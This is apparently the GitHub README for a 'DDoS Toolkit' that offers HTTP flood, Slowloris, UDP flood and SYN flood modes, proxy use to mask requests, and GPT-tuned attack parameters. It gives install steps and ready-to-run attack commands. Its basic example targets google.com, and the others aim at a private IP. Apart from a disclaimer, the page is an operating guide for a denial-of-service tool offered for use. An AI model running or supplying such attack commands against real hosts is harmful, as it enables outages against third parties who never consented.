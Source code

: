 # <p align="center"> **💥 DDoS Toolkit**
<p align="center">
  <img src="https://img.shields.io/github/v/release/Midohajhouj/DDoS-Toolkit?label=Version&color=a80505">
  <img src="https://img.shields.io/badge/Open%20Source-Yes-darkviolet?style=flat-square">
  <img src="https://img.shields.io/github/stars/Midohajhouj/DDoS-Toolkit?style=flat&label=Stars&color=a80505">
  <img src="https://img.shields.io/github/repo-size/Midohajhouj/DDoS-Toolkit?label=Size&color=a80505">
  <img src="https://img.shields.io/github/languages/top/Midohajhouj/DDoS-Toolkit?color=a80505">
</p>

DDoS Toolkit is a powerful and customizable tool designed to simulate various types of Distributed Denial of Service (DDoS) attacks, including HTTP Flood, Slowloris, UDP Flood, and SYN Flood. It offers features like rate-limited attacks, proxy support, custom payload generation, and system resource monitoring, making it suitable for testing and research purposes in ethical cybersecurity simulations.

> 🚨 **Note:** The author is not responsible for any misuse of this tool. Use at your own risk.

---

## Table of Contents

- [Features](##features)
- [Installation](##installation)
- [Usage](##usage)
- [Contact](##contact)

---

## 📋 Features
- **Multiple Attack Modes:** Supports HTTP Flood, Slowloris, UDP Flood, and SYN Flood.
- **Rate-Limited Attacks:** Customize the rate of requests sent to the target.
- **Proxy Support:** Use proxies to mask your requests and make attacks more efficient.
- **Custom Payloads:** Generate various types of payloads such as JSON, XML, and Form data.
- **AI-Powered Suggestions:** Use OpenAI GPT to optimize attack parameters.
- **Real-time Monitoring:** Track system resource usage and attack progress.

## Requirements

### Python Libraries
- aiohttp
- asyncio
- argparse
- threading
- scapy
- psutil
- colorama
- tqdm
- openai
- dns.resolver
- hashlib
- zlib

### System Requirements
- Python 3.x
- Internet access for proxy validation and AI suggestions

---

## 🛠️ Installation

### 1. Clone the repository:
```bash
git clone https://github.com/Midohajhouj/DDoS-Toolkit.git
cd DDoS-Toolkit
chmod +x *
```

### 2. Install dependencies:
```bash
pip install -r requirements.txt
```
or
```bash
./install.sh
```

### 3. Set up OpenAI API key:
Create a file `.env` and add your OpenAI API key:
```
OPENAI_API_KEY=your_openai_api_key_here
```
---

## ⚙️ Usage

### Basic Attack
To perform a basic attack with default settings:
```bash
ddos -u https://google.com/
```

### Command-Line Arguments:
- `-u, --url`: Target URL or IP address (required)
- `-t, --threads`: Number of threads (default: 10)
- `-p, --pause`: Pause time between requests (default: 0.1 seconds)
- `-d, --duration`: Duration of the attack in seconds (default: 1500)
- `--proxies`: Proxy list file (optional)
- `--headers`: Custom headers as JSON string (optional)
- `--payload`: Payload type (`json`, `xml`, `form`), default is `json`
- `--rate-limit`: Rate limit for requests per second (default: 100)
- `--attack-mode`: Type of attack (`http-flood`, `slowloris`, `udp-flood`, `syn-flood`), default is `http-flood`
- `--proxy-auth`: Proxy authentication (username:password), optional
- `--retry`: Number of retries for failed requests (default: 3)
- `--user-agents`: Custom user-agent list file (optional)

### Example Usage:
1. Perform an HTTP flood attack with 20 threads, 0.1s pause time, and for 300 seconds:
```bash
ddos -u http://192.168.48.165/ -t 20 -p 0.1 -d 300
```

2. Perform a SYN flood attack on IP `192.168.48.165` for 60 seconds:
```bash
ddos -u 192.168.48.165 --attack-mode syn-flood -d 60
```

3. Use proxies for the attack:
```bash
ddos -u http://192.168.48.165 --proxies proxies.txt
```

4. Save attack results to a JSON file:
```bash
ddos -u http://192.168.48.165 --results attack_results.json
```

## Example Output
```bash
Starting attack on http://192.168.48.165...
Requests Sent: 100 | Successful: 98 | Failed: 2 | RPS: 50.00 | CPU: 45% | Memory: 32%
```

## Contributing

Contributions are welcome! If you have suggestions or improvements, feel free to open an issue or submit a pull request.

## License
This project is licensed under the MIT License.

## Disclaimer
This tool is intended for educational purposes only. The author is not responsible for any misuse or illegal activity. Use this tool responsibly and with permission.

---

### **<p align="center"> Coded by <a href="https://github.com/Midohajhouj">LIONMAD</a> </p>**
